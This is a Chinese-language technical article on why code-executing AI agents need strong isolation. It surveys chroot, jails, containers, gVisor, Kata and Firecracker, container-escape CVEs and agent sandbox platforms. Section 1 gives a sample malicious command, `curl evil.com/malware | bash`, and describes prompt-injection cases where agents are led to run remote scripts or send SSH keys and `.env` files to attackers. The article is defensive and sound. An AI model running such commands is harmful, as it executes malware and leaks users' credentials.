

# 01 Agent 沙箱全景——为什么代码执行 Agent 需要隔离

> [!abstract] 摘要
> 这是 Agent 沙箱与隔离技术专栏的开篇。[[LLM/Coding-Agent运行范式/00 专栏导览|Coding Agent 运行范式专栏]]回答了"Agent 怎么工作"，本专栏回答"Agent 在哪安全运行"。当 Coding Agent 执行 LLM 生成的代码时，它执行的是"没有人审查过的代码"——这段代码可能是错的（bug 导致数据损坏）、可能是恶意的（Prompt Injection 导致的恶意代码执行）、可能是危险的（`rm -rf` 删除文件）。本文从隔离的演进史出发：chroot（1979 年 Bill Joy 的"快速 hack"）→ FreeBSD jail（1999 年 Poul-Henning Kamp 的"轻量虚拟化"）→ Linux 容器（namespaces + cgroups，但共享宿主内核）→ gVisor（用户空间内核，系统调用拦截）→ Kata Containers（硬件虚拟化轻量 VM）→ Firecracker（MicroVM 极简哲学），梳理每种技术解决了前代的什么致命缺陷、引入了什么新代价。然后分析容器逃逸的真实威胁——2025 年 11 月 runc 三个高严重度 CVE（CVE-2025-31133/52565/52881）允许完整容器逃逸，证明"共享宿主内核的容器对不可信代码不安全"。最后落地到 Agent 沙箱的共性架构（隔离+资源限制+网络控制+快照恢复）和 2025 年 GKE Agent Sandbox 的生产实践（16 倍增长、75% 成本降低、亚秒级启动）。核心认知：传统容器隔离对"可信代码"足够，但对"AI 生成的不可信代码"不安全——Agent 需要更强的隔离边界，把信任边界从"共享内核"移到"用户空间内核"或"硬件虚拟化"。

---

## 第 1 章 问题的根源——Agent 执行的是"没有人审查过的代码"

### 1.1 传统软件部署 vs Agent 代码执行

在传统的软件部署中，代码经过人工审查、测试、CI/CD 流水线后才被部署到生产环境。即使代码有 bug，至少有人看过它、有人为它负责。容器的隔离强度对这种"可信代码"场景是足够的——namespace + cgroups + seccomp 提供了基本的进程隔离和资源限制，一个经过审查的容器应用不太可能故意尝试逃逸。

但 AI Coding Agent 的工作模式根本性地改变了这个假设。当 Agent 执行 LLM 生成的代码时：

- **代码是实时生成的**——LLM 在运行时产生代码，没有人工审查窗口
- **代码可能包含错误**——LLM 会生成有 bug 的代码，bug 可能导致非预期的系统操作
- **代码可能是恶意的**——Prompt Injection 攻击可以诱导 LLM 生成恶意代码（如 `curl evil.com/malware | bash`）
- **代码的意图不可预测**——即使是正常的 Agent 任务，LLM 可能"创造性"地决定执行一些开发者从未预期的操作

这意味着 Agent 的代码执行场景更接近"运行不可信的第三方代码"而非"运行可信的应用代码"——而后者恰恰是容器隔离设计的目标场景。

### 1.2 容器隔离的致命假设

Linux 容器（Docker/Podman 等）的隔离依赖于三个内核机制：

- **namespaces**：隔离进程视图（PID/网络/文件系统/用户等）
- **cgroups**：限制资源使用（CPU/内存/I/O）
- **seccomp**：过滤系统调用

这三个机制共同工作，让容器内的进程"以为"自己独占系统。但它们有一个共同的致命假设：**容器进程和宿主机共享同一个 Linux 内核**。

这意味着：
- 容器进程的每个系统调用都最终由**宿主机内核**处理
- 宿主机内核是数百万行 C 代码——是系统上最大的攻击面
- 一个内核漏洞（如 Dirty Pipe CVE-2022-0847）可能让容器进程直接访问宿主机资源
- seccomp 和 capabilities 可以减少攻击面，但不能消除——而且它们经常被错误配置

> [!warning] 生产避坑：Docker 容器对 AI 生成的代码不安全
> 2026 年 2 月，业界共识已经明确："Docker/runc isolation is not enough for AI-generated code"——Docker/runc 的隔离对 AI 生成的代码不够安全。原因不是 Docker 有 bug（虽然它确实有 bug），而是 Docker 的设计假设是"运行可信代码"。对于可信代码，namespace + cgroup + seccomp 的组合足够了——可信代码不会故意尝试逃逸。但对于 AI 生成的不可信代码，这个假设不成立——不可信代码会主动寻找逃逸路径。Agent 沙箱需要更强的隔离边界——把信任边界从"共享内核"移到"独立内核"（硬件虚拟化）或"用户空间内核"（系统调用拦截）。

### 1.3 Agent 特有的安全风险

除了传统的"不可信代码执行"风险外，Agent 场景还引入了特有的安全威胁：

**Prompt Injection 导致的恶意代码执行**：攻击者在文档、网页、或代码注释中嵌入恶意指令，诱导 LLM 生成并执行恶意代码。INJECAGENT 基准测试发现，30 个 LLM Agent 中，ReAct-prompted GPT-4 有 24% 的时间易受此类攻击。

**Agent 被诱导访问恶意 URL**：Agent 通过 Bash 或 WebFetch 工具访问攻击者控制的 URL，下载并执行恶意脚本——这不需要内核漏洞，只需"Agent 被骗"。

**Agent 被诱导泄露敏感文件**：Agent 读取 `~/.ssh/id_rsa` 或 `.env` 文件，然后通过 curl 发送到攻击者服务器——同样不需要内核漏洞，只需"Agent 被骗"。

**LLMSmith 研究的发现**：学术研究发现了 11 个 LLM 集成框架中的 20 个漏洞（19 个 RCE，1 个任意文件读写），17 个已确认，13 个分配了 CVE ID，6 个 CVSS 9.8（严重）。

这些风险意味着 Agent 沙箱不仅需要"防逃逸"（内核级隔离），还需要"防外泄"（Egress 网络过滤）——本专栏第 10 篇将深入讨论 Egress 控制。

---

## 第 2 章 隔离的演进史——从 chroot 到 MicroVM

### 2.1 chroot（1979/1982）——"快速 hack"不是安全机制

**起源**：chroot 系统调用在 1979 年的 Version 7 Unix 开发期间引入。据考证，Bill Joy 在 1982 年 3 月 18 日添加了它——为了在没有专用计算机的情况下测试 BSD 的安装和构建系统。它的本质是"改变进程的根目录锚点"——让进程看到的 `/` 不是真实的文件系统根，而是指定的子目录。

**不是安全机制**：Poul-Henning Kamp（FreeBSD jail 的作者）明确指出："chroot(2) was never intended to be a security mechanism nor a solid container, it was simply a name-space based hack"——chroot 从来不是安全机制，只是一个基于命名空间的 hack。它最初被用于 `ftpd` 的匿名 FTP——让匿名用户只能看到文件系统的一个子树，而非做文件名解析和过滤。这种用法给了人们"chroot 是安全封装"的错误印象。

**致命缺陷**：

1. **仅隔离文件系统视图**：chroot 只改变文件系统的根目录锚点，不隔离进程、网络、IPC 等其他资源。chroot 内的进程仍然可以看到和影响外部进程（通过 `/proc`）。
2. **root 用户可以逃逸**：chroot 内的 root 用户可以通过创建新 chroot 或利用文件描述符技巧逃逸——因为 chroot 不限制 root 的能力。
3. **`..` 目录的边界情况**：chroot 不能完美阻止通过 `..`（上级目录）引用访问 chroot 外的文件——存在已知的逃逸技术。

**练习题传说**：PHK 在演讲中提到："Exercise 1: List at least four ways to escape chroot(2)"——列出至少四种逃逸 chroot 的方法。这不是秘密——chroot 的不安全性在 Unix 社区是常识。

> [!note] 设计哲学：chroot 的教训——"不要把 hack 当安全机制"
> chroot 的历史教训是深刻的——一个为了"方便"而设计的机制（改变根目录锚点用于构建测试），因为"看起来像"安全封装（让用户只能看到子树），被误用为安全机制。结果是数十年间无数基于 chroot 的"安全"部署被证明不安全。这个教训在容器时代同样适用——Docker 容器"看起来像"隔离环境，但它的隔离是为"可信代码"设计的，不应被当作"不可信代码的安全边界"。

### 2.2 FreeBSD jail（1999）——"轻量虚拟化"的开端

**起源**：1999 年，Poul-Henning Kamp 在 FreeBSD 上实现了 jail 系统调用——chroot 的扩展，旨在成为"轻量级虚拟机"。PHK 的动机很直接：虚拟主机客户的噩梦——每个客户需要不同版本的 MySQL、不同的 PHP 配置，完整的 VM 太重，chroot 太弱。

**jail 在 chroot 基础上增加了什么**：

1. **进程可见性限制**：jail 内的进程只能看到同一 jail 中的进程——通过修改 PID namespace 语义
2. **网络绑定**：每个 jail 绑定到自己的 IP 地址——`INADDR_ANY` 和 `INADDR_LOOPBACK` 被重映射到 jail 的 IP
3. **root 权限限制**：jail 内的 root 不能执行大多数特权操作——内核中每个 `suser(9)（超级用户检查）调用点都被修改为检查"是否在 jail 中"
4. **设备驱动感知**：某些设备驱动被教导"理解 jail"——不暴露宿主机设备

**实现规模**：350 行修改的源代码 + 400 行新代码——总共 750 行代码改动。这证明了"轻量级虚拟化"的可行性——不需要完整的 hypervisor，只需要在内核的关键路径上加入"jail 检查"。

**jail 的局限**：
- 没有资源限制（cgroups 的功能）——jail 内的进程可以耗尽宿主机资源
- 没有硬件虚拟化——仍然共享宿主内核
- 没有隐蔽通道防护——jail 间的侧信道攻击仍然可能

> [!info] 核心概念：jail 的"每路径检查"哲学
> FreeBSD jail 的实现方式与 Linux 容器的 namespace 方式根本不同。Linux namespace 是"创建隔离的命名空间"——进程在新的 namespace 中，自然看不到外部的资源。FreeBSD jail 是"在每个特权操作路径上检查是否在 jail 中"——进程仍在同一个内核中，但内核的每个特权操作入口都加了 `if (jailed) { restrict }` 的检查。jail 方式的优势是粒度更细——可以精确控制"jail 内的 root 能做什么不能做什么"；劣势是覆盖面依赖审计完整性——如果遗漏了一个特权操作路径没有加 jail 检查，就存在逃逸路径。PHK 自己承认："The third one was the tedious, since every single place in the kernel where the code said 'are you super-user?' had to be located and thought about"——第三部分（root 权限限制）最繁琐，因为内核中每一处"你是超级用户吗？"的代码都需要被定位和审查。

### 2.3 Linux 容器（2008+）——namespaces + cgroups 的组合

Linux 容器（Docker 2013 年发布，但底层技术在 2008 年的 LXC 中已经存在）使用两种内核机制的组合：

- **namespaces**（2002-2020，8 种逐步引入）：隔离进程视图——PID/网络/挂载点/用户/IPC/UTS/cgroup/time
- **cgroups**（2007，v2 2016 稳定）：限制资源使用——CPU/内存/I/O/设备

**容器相比 jail 的优势**：
- 更全面的隔离——8 种 namespace 覆盖了几乎所有系统资源视图
- 内置资源限制——cgroups 提供 CPU/内存/I/O 限制
- 标准化——OCI（Open Container Initiative）规范让容器可以跨运行时

**容器的致命问题——共享内核**：

容器进程的每个系统调用都由**宿主机内核**处理。这意味着：

```
容器进程 → syscall → 宿主机内核（数百万行 C 代码）→ 返回结果
```

宿主机内核是整个系统的最大攻击面——它处理来自所有容器和宿主机进程的所有系统调用。一个内核漏洞就可能让容器进程逃逸到宿主机。

### 2.4 容器逃逸的真实历史

容器逃逸不是理论威胁——它有丰富的历史 CVE 记录：

| CVE | 年份 | 机制 | 严重度 |
| :--- | :--- | :--- | :--- |
| CVE-2019-5736 | 2019 | runc 进程替换 | 高 |
| CVE-2019-19921 | 2019 | runc LSM 标签绕过 | 中 |
| CVE-2022-0185 | 2022 | fsconfig 整数溢出 | 高（CVSS 8.4） |
| CVE-2022-0492 | 2022 | cgroup v1 release_agent 逃逸 | 高（需 CAP_SYS_ADMIN） |
| CVE-2024-21626 | 2024 | runc 文件描述符泄漏 | 高 |
| CVE-2025-31133 | 2025.11 | runc masked path 滥用 + mount 竞争 | 高（CVSS 7.3） |
| CVE-2025-52565 | 2025.11 | runc procfs 写入重定向 | 高 |
| CVE-2025-52881 | 2025.11 | runc 任意写入 gadget | 高 |
| CVE-2025-59528 | 2025 | 未知细节 | 严重（CVSS 10.0） |

**2025 年 11 月的 runc 三连击**尤其值得注意——CVE-2025-31133、CVE-2025-52565、CVE-2025-52881 在同一天披露，都允许**完整容器逃逸**，都通过绕过 runc 对 `/proc` 文件写入的限制实现。

CVE-2025-31133 的机制：runc 用 `maskedPaths` 机制保护敏感的 `/proc` 文件——通过 bind-mount `/dev/null` 到被保护的文件上来"遮罩"它。但 runc 没有充分验证 bind-mount 的源（`/dev/null`）是否真的是一个 `/dev/null` inode。攻击者可以通过与其他共享挂载的容器的竞争条件，替换 `/dev/null` inode，从而绕过遮罩，获得对宿主机 `/proc` 文件的写入权限——进而实现完整逃逸。

> [!warning] 生产避坑：runc 漏洞影响所有容器运行时
> runc 是 Docker、Podman、Kubernetes（通过 containerd/CRI-O）的默认低级容器运行时——一个 runc 漏洞影响整个云原生生态系统。CNCF 的技术概述明确指出："Runc is the cornerstone of containerization on Linux, serving as the default low-level container runtime for industry-standard tools like Docker, Podman, and Kubernetes. Its ubiquity means that a vulnerability in runc has far-reaching implications for the entire cloud-native ecosystem."这意味着你不能因为"我用的是 Kubernetes 不是 Docker"就认为自己不受影响——底层都是 runc。

### 2.5 gVisor（2018）——用户空间内核

**核心思想**：不把系统调用传给宿主机内核，而是在**用户空间**重新实现一个 Linux 系统调用接口——gVisor 的 Sentry 组件。

**架构**：
- **Sentry**：用 Go 实现的用户空间内核——实现大部分 Linux ABI，在用户空间处理容器的系统调用
- **Gofer**：I/O 处理进程——当 Sentry 需要访问文件系统时，通过 Gofer 与宿主文件系统交互
- **Platform**：系统调用拦截机制——Systrap（默认，2023 年起）/ KVM / ptrace（旧平台）

**信任边界**：从"共享宿主机内核"移到了"用户空间内核"——宿主机内核只看到 Sentry 自身发出的窄小、锁定的一组系统调用，而非容器进程的原始系统调用。这大幅缩小了宿主机内核的攻击面。

**代价**：
- **兼容性税**：351 个 amd64 系统调用中，只有约 277 个有完整或部分实现——某些应用在 gVisor 中行为异常（如依赖 ptrace 的应用、某些数据库引擎、CRIU 工具）
- **延迟税**：系统调用密集型工作负载有 2-11 倍的延迟开销（2019 USENIX 研究），实际部署报告约 10-30% 的开销取决于工作负载——CPU 密集型几乎无感，I/O 密集型明显变慢

### 2.6 Kata Containers（2017）——硬件虚拟化的轻量容器

**核心思想**：每个 Pod 运行在一个轻量级虚拟机中——用硬件虚拟化（KVM/QEMU/Cloud Hypervisor）提供隔离边界。

**与 gVisor 的路线差异**：
- gVisor：用用户空间内核拦截系统调用（**软件隔离**）
- Kata：用硬件虚拟化运行真实内核（**硬件隔离**）

Kata 的容器进程运行在 VM 内的 Guest 内核上——Guest 内核处理系统调用，与宿主机内核完全隔离。逃逸需要 VM 逃逸（hypervisor 漏洞），这比容器逃逸困难几个数量级。

**CRI 集成**：Kata 作为 Kubernetes 的 CRI 兼容运行时——Pod Sandbox → VM，Container → VM 内的进程/namespace。

**代价**：VM 启动开销和内存开销——每个 VM 需要自己的 Guest 内核，比共享内核的容器重得多。

### 2.7 Firecracker（2018）——MicroVM 的极简哲学

**核心思想**：把 VM 精简到极致——只保留最小必要的设备模型，实现亚秒级启动和极低内存开销。

**极简设计**：
- 仅 6 个仿真设备（virtio-net、virtio-balloon、virtio-block、virtio-vsock、serial console、minimal keyboard controller）
- 没有 BIOS、没有 USB、没有声卡、没有图形——一切非必要的东西都被移除
- jailer 安全进程——限制 Firecracker 进程自身的权限
- 内置 rate limiter——每个 MicroVM 的网络和存储速率可限制

**性能数据**（官方）：
- 启动时间：~125ms 到用户空间代码
- 内存开销：< 5 MiB per MicroVM
- 创建速率：每主机每秒最多 150 个 MicroVM

**生产应用**：AWS Lambda 和 Fargate 的底层都使用 Firecracker——这意味着每次你在 Lambda 上运行一个函数，背后都有一个 Firecracker MicroVM 在 ~125ms 内启动。

### 2.8 五种隔离技术的全景对比

| 技术 | 隔离机制 | 信任边界 | 启动时间 | 内存开销 | 兼容性 | 安全强度 |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| **chroot** | 文件系统根锚点 | 无（共享一切） | 微秒级 | ~0 | 完整 | 极弱（非安全机制） |
| **Linux 容器** | namespace + cgroup + seccomp | 共享宿主内核 | 毫秒级 | ~5-10MB | 完整 | 弱（内核漏洞可逃逸） |
| **gVisor** | 用户空间内核（Sentry） | Sentry 进程 | 亚秒级 | 中等 | 部分（~79% syscall） | 中（需逃逸 Sentry） |
| **Kata Containers** | 硬件虚拟化（VM） | hypervisor | 秒级 | 较高（Guest OS） | 完整（真实内核） | 强（需 VM 逃逸） |
| **Firecracker** | 硬件虚拟化（MicroVM） | KVM + jailer | ~125ms | < 5MiB | 完整（真实内核） | 强（需 VM 逃逸） |



> [!note] 设计哲学：隔离演进的"信任边界移动"主线
> 从 chroot 到 Firecracker，隔离技术的演进有一条清晰的主线——**不断移动信任边界，远离共享的宿主机内核**。chroot 没有信任边界（共享一切）。容器把信任边界放在"namespace + cgroup"上，但系统调用仍然到达宿主内核。gVisor 把信任边界移到了"Sentry 进程"——系统调用在用户空间处理。Kata/Firecracker 把信任边界移到了"hypervisor"——系统调用在 Guest 内核处理，宿主内核完全不可见。每一步演进都在"把攻击者需要突破的边界"从"一个内核漏洞"提升到"一个用户空间内核漏洞"再提升到"一个 hypervisor 漏洞"——突破难度逐级升高。这就是隔离技术的核心逻辑——不是"让隔离更复杂"，而是"让逃逸更困难"。

---

## 第 3 章 Agent 沙箱的共性架构

### 3.1 四个共性组件

尽管 E2B、Daytona、OpenHands、GKE Agent Sandbox 等平台使用了不同的底层隔离技术，它们都遵循一个共性架构，包含四个核心组件：

**组件一：隔离边界**
- 选择何种隔离技术（容器/gVisor/MicroVM/Kata）
- 决定信任边界放在哪里
- 是整个安全模型的基础

**组件二：资源限制**
- vCPU、RAM、Disk 限制
- 防止 Agent 执行的代码耗尽宿主机资源
- 通常通过 cgroups（容器/gVisor）或 VM 配置（MicroVM/Kata）实现

**组件三：网络控制**
- Egress 过滤——防止 Agent 泄漏 API Key、访问非授权外网
- 这是 Agent 特有的需求——传统容器通常不需要限制出站网络
- 实现手段：iptables/nftables/eBPF/NetworkPolicy/服务网格

**组件四：快照与恢复**
- 保存沙箱状态（文件系统+进程状态）
- 快速恢复到之前的状态
- 这对 Agent 的"长时任务"场景至关重要——Agent 可能需要在多个会话间保持工作状态

### 3.2 为什么传统容器沙箱不够

传统容器沙箱（如 Docker）在"隔离边界"和"网络控制"两个组件上对 Agent 场景不够：

**隔离边界不够强**：如第 2 章所述，容器共享宿主内核——一个内核漏洞就能逃逸。对于运行"可信代码"的传统应用，这个风险可接受。但对于运行"AI 生成的不可信代码"的 Agent，这个风险不可接受。

**网络控制不够默认**：Docker 默认不限制出站网络——容器可以访问任意外网。对于传统应用这没问题（应用需要访问外部 API）。但对于 Agent，这意味着被 Prompt Injection 攻击的 Agent 可以自由地把敏感数据发到攻击者服务器。

### 3.3 Agent 沙箱 vs 传统容器沙箱的本质差异

| 维度 | 传统容器沙箱 | Agent 沙箱 |
| :--- | :--- | :--- |
| **信任假设** | 运行可信代码 | 运行不可信的 AI 生成代码 |
| **隔离强度** | namespace + cgroup（共享内核） | gVisor/MicroVM/Kata（独立内核或用户空间内核） |
| **网络控制** | 默认无限制 | 默认 Deny + 白名单（Egress 过滤） |
| **快照恢复** | 可选（Docker commit） | 核心功能（跨会话状态保持） |
| **启动延迟** | 毫秒级 | 亚秒级到秒级（更强隔离的代价） |
| **典型场景** | 微服务部署、CI/CD | AI Agent 代码执行、Coding Agent 沙箱 |

> [!info] 核心概念：Agent 沙箱是"零信任代码执行"基础设施
> Agent 沙箱的本质是"零信任代码执行"基础设施——假设被执行的代码是不可信的（可能错、可能恶毒），因此在架构层面就设置了多重防线：强隔离边界（防逃逸）+ 资源限制（防耗尽）+ 网络控制（防外泄）+ 审计可观测（防不可追溯）。这与"零信任网络"的哲学一致——不因为"代码来自我的 Agent"就信任它，而是假设"任何代码都可能是恶意的"，然后用架构保证"即使代码是恶意的，也无法造成严重损害"。

---

## 第 4 章 GKE Agent Sandbox——2025 年的生产实践标杆

### 4.1 产品定位

GKE Agent Sandbox 是 Google 在 KubeCon NA 2025（2025 年 11 月）宣布 GA（正式可用）的 Kubernetes 原语，专门为 Agent 代码执行设计。它基于 gVisor（也支持 Kata Containers），提供了 Kubernetes 原生的沙箱管理 API。

**关键特性**：
- 基于 gVisor 的运行时隔离（也支持 Kata Containers）
- 亚秒级沙箱配置（预热线池）
- Pod Snapshots（GKE 独有功能）——完整检查点和恢复运行中的 Pod
- Default-Deny 网络策略
- CNCF 开源项目

### 4.2 生产数据

GKE Agent Sandbox 在 GA 前的 5 个月内实现了 **16 倍增长**——从预览到 GA，沙箱数量增长了 16 倍，反映了生产环境对 Agent 沙箱的强烈需求。

**成本效率**：Google 报告称，从 MicroVM 迁移到 GKE Agent Sandbox 后，可以在**同样硬件上部署 40%+ 更多 Agent**，**成本降低 30%+**。这是因为 gVisor 的内存开销低于完整 MicroVM（不需要 Guest OS），可以在同一节点上打包更多沙箱。

**启动性能**：
- 预热线池：300 个沙箱/秒/集群，亚秒级延迟
- 90% 的分配在 200ms 内完成
- 相比冷启动：90% 改善

### 4.3 Pod Snapshots——Agent 状态持久化

GKE Agent Sandbox 的 Pod Snapshots 是一个独特功能——它允许对**运行中的 Pod**做完整检查点（checkpoint），然后在需要时从检查点恢复。

这对 Agent 场景的价值：
- **会话暂停与恢复**：Agent 工作到一半时暂停（做 snapshot），之后从 snapshot 恢复继续工作
- **预热沙箱**：预先配置好开发环境的沙箱做 snapshot，新请求来时从 snapshot 启动——秒级而非分钟级
- **故障恢复**：Agent 沙箱崩溃后从最近的 snapshot 恢复——不丢失工作进度

### 4.4 Agent Substrate——超大规模编排

2025 年 11 月，Google 还宣布了 Agent Substrate——一个开源项目，解决超大规模 Agent 的性能和密度需求。Agent Substrate 可以实时将 Agent 移入/移出就绪计算容量，最小化控制平面开销。这是 GKE Agent Sandbox 之上的编排层——管理"成千上万个 Agent 沙箱"的生命周期。

> [!note] 设计哲学：Kubernetes 成为 Agent 的原生平台
> GKE Agent Sandbox 的设计反映了一个重要的趋势——Kubernetes 正在成为 AI Agent 的原生运行平台。K8s 已经是微服务的标准编排平台，现在它正在被扩展以支持 Agent 的特殊需求：安全沙箱（gVisor/Kata 集成）、状态持久化（Pod Snapshots）、亚秒级配置（预热线池）、默认安全（Default-Deny 网络）。这意味着企业不需要为 Agent 部署全新的基础设施——可以在现有的 K8s 集群上启用 Agent Sandbox，就像启用其他 K8s 特性一样。这种"K8s 原生"的路径降低了 Agent 沙箱的采用门槛。

---

## 第 5 章 Agent 沙箱平台全景

### 5.1 五大平台对比

2025-2026 年，多个专注于 AI Agent 代码执行的云端沙箱平台涌现。以下是基于最新一手资料的对比：

| 平台 | 底层隔离 | 启动时间 | 内存/实例 | GPU 支持 | 开源 | 特点 |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| **E2B** | Firecracker MicroVM | ~150ms | 30-50MB | 实验性 | 部分（Apache 2.0） | AI 原生设计，SDK 完善 |
| **CubeSandbox** | CubeVM (Rust) + KVM | <60ms | <5MB (CoW) | 否 | 完全（Apache 2.0） | 最快启动，Copy-on-Write 内存 |
| **Modal** | gVisor | 亚秒级 | ~30MB | H100, A100 | 否 | Serverless，大规模并发 |
| **Daytona** | 容器/VM/GPU | <90ms | 低 | GPU passthrough | 完全（Apache 2.0） | 多种沙箱类型，自托管 |
| **Fly.io Machines** | Firecracker MicroVM | <300ms | 低 | L40S | 否 | suspend/resume，不活跃不计费 |
| **GKE Agent Sandbox** | gVisor / Kata | 亚秒级（预热） | 中等 | 取决于节点 | CNCF 项目 | K8s 原生，Pod Snapshots |

### 5.2 选型维度

选择 Agent 沙箱平台时，需要考虑以下维度：

**隔离强度**：运行的是"完全不可信的代码"还是"半可信的代码"？前者需要 MicroVM/Kata，后者 gVisor 可能足够。

**启动延迟**：Agent 需要亚秒级启动（交互场景）还是可以接受秒级启动（批处理场景）？

**内存开销**：需要在单个节点上部署多少个沙箱？内存开销决定了密度上限。

**GPU 支持**：Agent 是否需要 GPU（如运行本地 LLM、做 ML 推理）？

**自托管 vs 托管**：是否需要完全控制基础设施（自托管）还是可以接受第三方托管？

**开源程度**：是否需要避免 vendor lock-in？

> [!warning] 生产避坑：不要只看启动时间
> 很多平台在营销中强调"亚秒级启动"或"<100ms 冷启动"，但启动时间只是 Agent 沙箱的一个维度。一个 <60ms 启动但隔离强度弱的沙箱（如纯容器），对运行 AI 生成代码来说是不安全的。一个 ~150ms 启动但用 Firecracker MicroVM 隔离的沙箱，虽然启动慢了 90ms，但安全强度高几个数量级。选型时应该先确定"需要什么级别的隔离"，再看"在这个隔离级别下，哪个平台的启动时间和内存开销最优"——而非反过来。

---

## 第 6 章 专栏导读

### 6.1 本专栏的结构

本篇建立了 Agent 沙箱的全景地图。接下来的 11 篇将逐一深入各个技术层面：

**Linux 底层隔离（02-04）**：
- 02 namespaces——8 种命名空间详解、user namespace 与无根容器
- 03 cgroups v2——统一层级、PSI 监控、v2 在 containerd/CRI-O 的采用
- 04 seccomp + capabilities——系统调用过滤、权限分权、为什么 CAP_SYS_ADMIN 是"新 root"

**轻量虚拟化（05-07）**：
- 05 gVisor——Sentry/Gofer/Systrap 架构、系统调用拦截、兼容性限制
- 06 Kata Containers——QEMU/Cloud Hypervisor/Dragonball、CRI 集成
- 07 Firecracker + Cloud Hypervisor——MicroVM 极简设计、jailer、rate limiter

**Agent 专用沙箱（08-09）**：
- 08 E2B + Daytona——Firecracker-based 和容器-based 的 Agent 沙箱架构
- 09 OpenHands Runtime + 通用平台——Docker/Modal/Fly/GKE Agent Sandbox

**安全控制（10-12）**：
- 10 Egress 网络过滤——iptables/eBPF/NetworkPolicy、FQDN 白名单
- 11 沙箱逃逸与 Agent 特有安全风险——CVE 分析、Prompt Injection 防御
- 12 审计可观测与未来趋势——Tetragon/Falco/AgentSight、Confidential Containers、WASM

### 6.2 与 Coding Agent 专栏的关联

> [!info] 专栏导航
> 本文是 [[00 专栏导览|Agent 沙箱与隔离技术专栏]] 的第 1 篇。本专栏是 [[LLM/Coding-Agent运行范式/00 专栏导览|Coding Agent 运行范式专栏]] 的姊妹篇——前者回答"Agent 怎么工作"，本专栏回答"Agent 在哪安全运行"。两个专栏在以下交叉点互补：Coding Agent 专栏的 [[LLM/Coding-Agent运行范式/07 Claude Code 架构解构——Anthropic 的 CLI Agent 设计哲学|Claude Code 权限模型]]（bypassPermissions 仅限隔离环境）依赖本专栏讨论的沙箱技术；Coding Agent 专栏的 [[LLM/Coding-Agent运行范式/09 OpenHands 与 Aider——开源 Coding Agent 的两种哲学|OpenHands Docker Runtime]] 是本专栏第 9 篇的深入对象。

---

## 参考文献

1. PHK. "Jails: Confining the omnipotent root." FreeBSD. https://people.freebsd.org/~bapt/pdfdocs/papers/jail.pdf
2. PHK. "Lousy virtualization, Happy users: FreeBSD's jail(2) facility." https://papers.freebsd.org/2007/euug/phk-jail.files/jails.pdf
3. PHK. "Jails – High value but shitty Virtualization." https://phk.freebsd.dk/sagas/jails/
4. Wikipedia. "chroot." https://en.wikipedia.org/wiki/chroot
5. Sarai, A. "runc container breakouts via procfs writes: CVE-2025-31133, CVE-2025-52565, and CVE-2025-52881." 2025-11-05. https://www.openwall.com/lists/oss-security/2025/11/05/3
6. CNCF. "runc container breakout vulnerabilities: A technical overview." 2025-11-28. https://www.cncf.io/blog/2025/11/28/runc-container-breakout-vulnerabilities-a-technical-overview/
7. Google. "Reduce your agent's costs by 75% with GKE Agent Sandbox." https://cloud.google.com/blog/products/containers-kubernetes/reduce-your-agents-costs-with-gke-agent-sandbox
8. Google. "Bringing you Agent Sandbox on GKE and Agent Substrate." https://cloud.google.com/blog/products/containers-kubernetes/bringing-you-agent-sandbox-on-gke-and-agent-substrate
9. Google. "About GKE Agent Sandbox." https://docs.cloud.google.com/kubernetes-engine/docs/concepts/machine-learning/agent-sandbox
10. "Firecracker vs gVisor vs Kata: Isolating AI Agent Code Execution." https://dreaming.press/posts/firecracker-vs-gvisor-vs-kata-agent-sandbox-isolation.html
11. "AI Agent Sandboxing in 2026." https://amux.io/guides/ai-agent-sandboxing/
12. "AI Agent Sandbox Technologies: A Complete 2026 Comparison." https://grigio.org/ai-agent-sandbox-technologies-a-complete-2026-comparison/

---

## 思考题

1. **chroot 在 1979 年被发明时不是安全机制，但后来被误用为安全机制。Docker 容器在 2013 年发布时也不是为"不可信代码"设计的——但 2025 年的 AI Agent 场景需要运行不可信代码。历史是否在重演？我们是否在重复"把非安全设计误用为安全边界"的错误？** 提示：考虑 Docker 的设计目标——"打包和运行可信应用"，与 Agent 的需求——"隔离不可信代码"之间的错位。这个错位是否与 chroot 的历史教训本质相同？

2. **2025 年 11 月的 runc 三个 CVE 都要求"启动带自定义挂载配置的容器"才能利用。如果 Agent 沙箱不使用自定义挂载（只用默认配置），是否就安全了？** 提示：考虑"默认配置是否真的不包含自定义挂载"——Docker 的默认配置中可能包含一些开发者不知道的挂载（如 `/proc` 的 maskedPaths）。而且，未来的 CVE 可能不依赖于自定义挂载——你不能因为"当前的 CVE 需要特定条件"就认为"默认配置永远安全"。

